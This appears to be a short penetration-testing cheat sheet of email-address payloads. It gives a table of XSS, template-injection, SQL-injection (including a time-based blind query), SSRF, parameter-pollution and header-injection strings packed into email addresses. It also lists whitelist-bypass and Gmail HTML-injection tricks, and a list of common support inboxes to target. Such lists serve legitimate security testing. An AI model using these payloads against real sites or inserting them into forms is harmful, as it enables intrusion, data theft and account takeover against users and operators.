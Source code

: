 # Email attacks

| Attack                   | Payload                                                                                                                                          |
| ------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| XSS                      | <p>test+(alert(0))@example.com</p><p>test@example(alert(0)).com</p><p>"alert(0)"@example.com</p><p>&#x3C;script src=//xsshere?”@email.com</p>    |
| Template injection       | <p>"&#x3C;%= 7 * 7 %>"@example.com</p><p> test+(${{7*7}})@example.com</p>                                                                        |
| SQLi                     | <p>"' OR 1=1 -- '"@example.com </p><p>"mail'); SELECT version();--"@example.com</p><p>a'-IF(LENGTH(database())=9,SLEEP(7),0)or'1'='1\"@a.com</p> |
| SSRF                     | <p>john.doe@abc123.burpcollaborator.net</p><p>john.doe@[127.0.0.1]</p>                                                                           |
| Parameter Pollution      | victim\&email=attacker@example.com                                                                                                               |
| (Email) Header Injection | <p>"%0d%0aContent-Length:%200%0d%0a%0d%0a"@example.com</p><p>"recipient@test.com>\r\nRCPT TO:&#x3C;victim+"@test.com</p>                         |
| Wildcard abuse           | %@example.com                                                                                                                                    |

```
# Bypass whitelist
inti(;inti@inti.io;)@whitelisted.com
inti@inti.io(@whitelisted.com)
inti+(@whitelisted.com;)@inti.io

#HTML Injection in Gmail
inti.de.ceukelaire+(<b>bold<u>underline<s>strike<br/>newline<strong>strong<sup>sup<sub>sub)@gmail.com

# Bypass strict validators
# Login with SSO & integrations
GitHub & Salesforce allow xss in email, create account and abuse with login integration

# Common email accounts
support@
jira@
print@
feedback@
asana@
slack@
hello@
bug(s)@
upload@
service@
it@
test@
help@
tickets@
tweet@
```

